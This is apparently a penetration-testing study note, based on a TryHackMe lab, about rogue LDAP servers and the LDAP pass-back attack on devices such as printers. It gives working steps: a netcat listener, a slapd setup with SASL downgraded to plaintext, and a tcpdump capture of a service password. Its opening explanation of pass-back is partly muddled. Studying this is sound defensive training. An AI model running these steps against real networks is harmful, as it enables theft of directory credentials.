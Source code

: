 
## General

A rogue LDAP server is a malicious server that is set up to impersonate a legitimate LDAP server in order to trick clients into sending sensitive information or credentials to the attacker. LDAP (Lightweight Directory Access Protocol) is a protocol that is used to access and manage directory services over a network, such as a company's employee directory.

An attacker may set up a rogue LDAP server in order to exploit LDAP clients that are configured to use the rogue server as their LDAP server. For example, an attacker may set up a rogue LDAP server and then send a phishing email to employees, tricking them into believing that they need to login to the rogue server in order to access their email. If the employees fall for the trick and enter their login credentials into the rogue server, the attacker will be able to capture their credentials and use them to gain unauthorized access to the company's systems.

- Pass-Back Attack
	LDAP Pass-back attacks can be performed when we gain access to a device's configuration where the LDAP parameters are specified. This can be, for example, the web interface of a network printer. Usually, the credentials for these interfaces are kept to the default ones, such as `admin:admin` or `admin:password`. Here, we won't be able to directly extract the LDAP credentials since the password is usually hidden. However, we can alter the LDAP configuration, such as the IP or hostname of the LDAP server. In an LDAP Pass-back attack, we can modify this IP to our IP and then test the LDAP configuration, which will force the device to attempt LDAP authentication to our rogue device. We can intercept this authentication attempt to recover the LDAP credentials.
	
	For example, an employee's computer may be configured to use the legitimate LDAP server to authenticate their login credentials when they log into their computer. If the employee falls for a phishing attack and enters their login credentials into the rogue LDAP server, the attacker can pass the employee's credentials back to the legitimate LDAP server in order to authenticate the employee's login. This allows the attacker to gain access to the employee's account without the employee's knowledge.


## Commands

An attacker may attempt to use a rogue LDAP server to steal the password that an application is using to communicate with an Active Directory (AD) server. The attacker can set up the rogue server to impersonate the legitimate LDAP server and trick the application into sending the password to the rogue server. The attacker can then examine the transmitted password in plain text and potentially use it to gain unauthorized access to the AD server. This type of attack is possible because many applications store passwords that are not viewable by users, and the attacker hopes to use the rogue server to obtain the password and bypass the security measures that are in place.

Important
	- LDAP authentication is a popular mechanism with third-party (non-Microsoft) applications that integrate with AD. These include applications and systems such as:
		-   Gitlab
		-   Jenkins
		-   Custom-developed web applications
		-   Printers
		-   VPNs  
	ㅤ
	- If you could gain a foothold on the correct host, such as a Gitlab server, it might be as simple as reading the configuration files to recover these AD credentials.


- Find an application that integrate with AD (Example -> Printer)
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/b2ab520a2601299ed9bf74d50168ca7d.png)

- Change the Server for your machine IP

- Start a netcat lisener (Option Number 1)
```
nc -lvp 389
```
	'---> If the response come back and does not make sence, setup a rogue server

Installing Rogue Server on the machine
```
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```

Configure the rogue LDAP server
```
sudo dpkg-reconfigure -p low slapd
```
	'---> Make sure to press `<No>` when requested if you want to skip server configuration:
	'---> For the DNS domain name, you want to provide our target domain, which is `X.something.com`:
	'---> Use this same name for the Organisation
	'---> Provide any Administrator password:
	'---> Select MDB as the LDAP database to use:
	'---> For the last two options, ensure the database is not removed when purged:
	'---> Move old database files before a new one is created:


Downgrading the supported authentication mechanisms
```
# Create a new file (location does not matter)
touch olcSaslSecProps.ldif
nano olcSaslSecProps.ldif (Add the following)
	#olcSaslSecProps.ldif
	dn: cn=config
	replace: olcSaslSecProps
	olcSaslSecProps: noanonymous,minssf=0,passcred

# Restart the service
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart

# Check permission
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```

Launch the rogue server on your machine
```
# Launch the server
sudo tcpdump -SX -i INTERFACE tcp port 389
```

Capturing LDAP Credentials  
```shell-session
...
	0x0030:  0560 8400 0000 3202 0102 0418 7a61 2e74  .`....2.....za.t
	0x0040:  7279 6861 636b 6d65 2e63 6f6d 5c73 7663  ryhackme.com\svc
	0x0050:  4c44 4150 8013 7472 7968 6163 6b6d 656c  LDAP..password11
```
	'---> Password11 is the password in this example

More information ---> https://medium.com/r3d-buck3t/pwning-printers-with-ldap-pass-back-attack-a0d8fa495210